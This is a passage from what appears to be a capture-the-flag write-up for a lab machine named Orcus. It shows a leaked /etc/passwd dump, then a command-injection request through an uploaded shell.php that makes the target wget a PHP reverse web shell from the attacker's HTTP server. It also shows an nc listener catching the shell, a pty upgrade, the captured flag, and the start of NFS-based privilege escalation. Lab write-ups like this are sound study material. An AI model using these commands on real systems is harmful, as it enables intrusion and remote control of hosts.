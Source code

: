 dovenull:x:107:118:Dovecot login user,,,:/nonexistent:/bin/false
landscape:x:108:119::/var/lib/landscape:/bin/false
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
postgres:x:110:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
avahi:x:111:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
colord:x:112:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
kippo:x:1001:27::/home/kippo:/bin/bash
statd:x:113:65534::/var/lib/nfs:/bin/false
systemd-timesync:x:114:125:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:115:126:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:116:127:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:117:128:systemd Bus Proxy,,,:/run/systemd:/bin/false
uuidd:x:100:101::/run/uuidd:/bin/false
lxd:x:118:65534::/var/lib/lxd/:/bin/false
_apt:x:119:65534::/nonexistent:/bin/false
dnsmasq:x:120:65534:dnsmasq,,,:/var/lib/misc:/bin/false
* Curl_http_done: called premature == 0
* Connection #0 to host 10.37.129.9 left intact
{% endhighlight %}

Now to get a better shell:

{% highlight bash %}
screen python -m SimpleHTTPServer
curl -v http://10.37.129.9/zenphoto/uploaded/shell.php?cmd=wget%20http://10.37.129.5:8000/php_reverse_webshell.php
sudo nc sudo nc -vnlp 443
Connection from 10.37.129.9 44708 received!
Linux Orcus 4.4.0-45-generic #66-Ubuntu SMP Wed Oct 19 14:12:05 UTC 2016 i686 i686 i686 GNU/Linux
 00:44:17 up  2:22,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ export TERM=xterm
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@Orcus:/var/www$
cd /
locate flag.txt
cat /var/www/flag.txt
868c889965b7ada547fae81f922e45c4
{% endhighlight %}

There's the first flag

## PrivEsc

### Enumeration and Analysis

Using g0mi1k's privilege escalation writeup and running various commands I was able to find nfs running as root.  After some researching on interacting with this on the cli I found this command: showmount
